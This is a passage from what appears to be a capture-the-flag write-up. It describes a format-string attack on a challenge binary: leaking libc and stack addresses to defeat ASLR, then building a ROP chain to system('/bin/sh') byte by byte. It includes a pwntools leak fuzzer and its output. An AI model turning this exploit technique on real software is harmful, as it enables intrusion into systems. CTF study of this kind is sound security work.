 I was going to opt for `GOT` overwriting but since `RELRO` is fully enabled, `GOT` won't be writable, so we have to think of something else. Since `NX` is enabled, stack won't be executable hence placing the shellcode on stack and redirecting `RIP` to it won't be of any help. This leaves us with `Return Oriented Programming (ROP)`.

So finally here's how I pwned this challenge<br>
We prepare the following ROP chain
- `ret`  *( to fix stack misalignment )*
- `pop rdi ; ret`
- `pointer to "/bin/sh"`
- `system()`

We do this by using the libc leak to calculate it's base address at runtime ( defeating `ASLR` ) and subsequently use that to calculate the addresses of the above gadgets. Once we have the necessary data to prepare the payload, we write it `byte-by-byte` **after** the saved return pointer of vuln() function ( called when [2] is choosen ). This is done deliberated so that `RIP` returns back to `main` and again we go to `vuln` to write another byte. Hence we cannot overwrite the ret pointer until the entire ROP chain is written on the stack. The location where ROP chain starts can also be determined at runtime by using the stack leak.

I assumed that the `filter` will block `pwntools` `fmtstr_payload` *( but it turns that we could have used that )* so I used the manual method :D

A fuzzer like this can be used to not only leak values for analysis but also determine where our input lies:
```python
from pwn import *

p = process('./challenge')
no_of_leaks = 20

def generate_payload(i):
    end = 'AAAABBBB'
    string = ''.join( '%{:02d}$#lX'.format(i) )
    string += '*' * ( 28 - len(string) - len(end) )
    string += end
    return string.encode()

for i in range(1, no_of_leaks):
    payload = generate_payload(i)
    print('Sending payload : {}.....'.format(payload), end='')
    p.sendline(b'2')
    p.sendlineafter(b'>> ', payload)
    output = p.clean()
    for line in output.split(b'\n'):
        if b'AAAABBBB' in line:
            print(line.split(b'*')[0])

p.close()
```
{: file="fuzzer.py"}

```console
$ python fuzzer.py
[+] Starting local process './challenge': pid 3744238
Sending payload : b'%01$#lX*************AAAABBBB'.....b'>> 0X78'
Sending payload : b'%02$#lX*************AAAABBBB'.....b'0XFBAD208B'
Sending payload : b'%03$#lX*************AAAABBBB'.....b'0X7FBCBD3145F2'
Sending payload : b'%04$#lX*************AAAABBBB'.....b'0'
Sending payload : b'%05$#lX*************AAAABBBB'.....b'0'
Sending payload : b'%06$#lX*************AAAABBBB'.....b'0X2A586C2324363025'
Sending payload : b'%07$#lX*************AAAABBBB'.....b'0X2A2A2A2A2A2A2A2A'
Sending payload : b'%08$#lX*************AAAABBBB'.....b'0X414141412A2A2A2A'
Sending payload : b'%09$#lX*************AAAABBBB'.....b'0X42424242'
Sending payload : b'%10$#lX*************AAAABBBB'.....b'0X5578359BDD80'
Sending payload : b'%11$#lX*************AAAABBBB'.....b'0X92C78EE688CCF300'
```